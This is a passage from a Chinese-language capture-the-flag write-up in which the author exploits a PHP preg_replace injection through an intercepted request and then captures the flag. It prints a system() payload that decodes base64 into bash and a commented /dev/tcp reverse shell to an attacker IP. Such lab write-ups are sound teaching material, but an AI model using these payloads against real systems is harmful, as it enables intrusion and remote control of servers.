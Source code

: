 如上图，手动去掉`message`的`html`标签，然后修改正则匹配和命令，然后`Forward`发送包，成功得到回显

![](./images/image-121.png)

我们可以将替换文本设置为👇，进行反弹`shell`，方便操作

```
system("echo%20' YourBase64Here '|base64%20-d|bash");
#  /bin/bash -i >& /dev/tcp/10.10.xx.xx/200  0>&1
```

![](./images/image-122.png)

直接读取flag

```
JET{pr3g_r3pl4c3_g3ts_y0u_pwn3d}
```

![](./images/image-123.png)
